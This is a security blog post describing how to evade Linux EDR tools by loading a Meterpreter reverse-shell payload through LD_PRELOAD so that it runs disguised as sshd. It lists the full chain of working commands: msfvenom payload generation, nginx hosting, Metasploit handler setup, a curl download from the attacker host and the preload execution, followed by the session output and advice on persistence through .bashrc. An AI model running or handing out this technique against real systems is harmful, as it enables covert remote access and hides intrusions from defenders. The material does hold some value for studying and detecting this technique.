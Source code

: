 ```yaml
---
title: "Linux EDR Evasion With Meterpreter and LD_PRELOAD"
date: 2020-02-06T16:06:16-06:00
draft: false
tags:
    - ld_preload
    - linux
    - edr
    - evasion
    - meterpreter
---
```


Everyone has their favorite adversary technique to research and mine is LD_PRELOAD process injection because it's pretty versatile. It lets you hook functions to manipulate output, and it can also let you trip up defenders by injecting code into arbitrary processes for execution. In this post, I'll walk through how an adversary might combine Meterpreter with LD_PRELOAD to hide malicious activity under a legitimate Linux system process.

## The Setup

To get started, I'm working with a Kali Linux machine as my attacker system and a CentOS 8 system as my victim. You don't have to limit yourself to this setup, but it's what works for me at the moment.

On the victim system, the only access needed is code execution and the ability to transfer a payload.

On my attacker machine, I need to generate a Meterpeter payload within a shared object library format. To do this, we can use `msfvenom`.

```
# msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.10.57 LPORT=2022 -f elf-so > meterpreter.so
```

Next, we need a way to transfer `meterpreter.so` to the victim system. This may be done via a `curl` command or another method of downloading/uploading files.

In my case, I used NGINX to host the SO library from my Kali machine for download:

```
# cp meterpreter.so /var/www/html/
# systemctl start nginx
```

Finally, we need to set up a handler to receive the connection and use it in Metasploit. To do this, we can work with `msfconsole`.

```
# msfconsole

# msf5 > use exploit/multi/handler
# msf5 > set payload linux/x64/meterpreter/reverse_tcp
# msf5 > set LHOST 10.10.10.57
# msf5 > set LPORT 2022
# msf5 > run

[*] Started reverse TCP handler on 10.10.10.57:2022
```

And now we move to our victim system for execution!

## The Execution

On my victim system, I downloaded the SO library using a simple `curl` command:

```
$ curl -O http://10.10.10.57/meterpreter.so
```

From here I can pick any process I want to attribute execution to, as long as it isn't statically compiled. In this case, I'm choosing `sshd` since it often makes network connections and because some network admins use `tcp/2022` to obscure their SSH service availability.

```
$ LD_PRELOAD=./meterpreter.so sshd
```

Once executed, control is never actually passed to `sshd`, and the process execution is controlled by `meterpreter.so` as it reports back for commands. It appears that the process is frozen, but it really isn't.

On the Kali machine I see:

```
[*] Sending stage (3021284 bytes) to 10.10.10.51
[*] Meterpreter session 1 opened (10.10.10.57:2022 -> 10.10.10.51:39314) at 2020-02-06 20:05:00 -0600
```

From Kali I can join the Meterpreter session and get access at the permission level of the victim's user account:

```
meterpreter > sysinfo
Computer        : cent8-01.westeros.local
OS              : CentOS 8.0.1905 (Linux 4.18.0-80.el8.x86_64)
Architecture    : x64
BuildTuple      : x86_64-linux-musl
Meterpreter     : x64/linux
```

If we go to investigate with an EDR product, Auditd/Auditbeats logs, or osquery, the network connection and any actions will be attributed to `sshd`. This requires a defender to be much sharper on their game to spot malicious activity and understand the behavior of system processes. Depending on the actions we want to perform and the ports available for C2, we could potentially do the same with `httpd`, `smtpd`, `vsftpd`, etc.

## How Does It Work?

Most of the time we can safely assume that SO libraries work in a similar fashion to DLLs on Windows. That is, the library must have an exported symbol that should be called for code to execute. We can inspect SO libraries for exported symbols using the `nm` command. Howver, when we inspect our generated `meterpreter.so` library we can notice something odd:

```
# nm -D meterpreter.so
nm: meterpreter.so: no symbols
```

Oddly enough, it doesn't look like our `meterpreter.so` has any symbols to call, so how did `sshd` know to execute the code within the SO library? This is because of a feature of the ELF binary format.

SO libraries follow the ELF binary format and include a section called `.init`. Any code placed within this section will execute when the library is loaded by a process and before control is passed to the process itself. The section is usually used by compilers for global constructors, but we can put nearly anything there for exploitation. When `msfvenom` creates its `elf-so` payloads, it embeds payloads within a template designed to house the payload within the `.init` section for execution. That way, no process should need knowledge of symbols within the library for execution.

This is also the way payloads generated/used by the [Zombie Ant Farm](https://github.com/dsnezhkov/zombieant) project work.

The use of a `.init` section also has an interesting limitation when combined with preloading- it can only be used effectively when you define `LD_PRELOAD` for a single process. When executing Meterpreter in this fashion, the victim process will appear hung. This is because the Meterpreter code continuously executes before control is passed to the victim process's main function. The rest of the process instructions will not execute until Meterpreter exits. This means that if you export `LD_PRELOAD` to leverage this SO library or write the library path into `ld.so.preload`, it will cause serious instability. If you use a preload method that causes `meterpreter.so` to load into numerous or all processes, it will cause loads of processes, even ones needed for system operation, to hang immediately after loading the SO library. So, no bueno.

## Is It Useful?

Eh, it depends. We obviously already need code execution and a method of downloading code to a victim for this to be possible. I could see this being useful when combined with an RCE against publicly-available services to get a stable shell. That said, a simpler and safer route in terms of stability could also be the execution of a Python C2 agent. In the case of a Python agent, it would be slightly harder to cause the attribution of activity to a system process. This is not going to be an initial access method, it would be more useful for long-term evasion and persistence when combined with a `.bash_profile` or `.bashrc` command execution.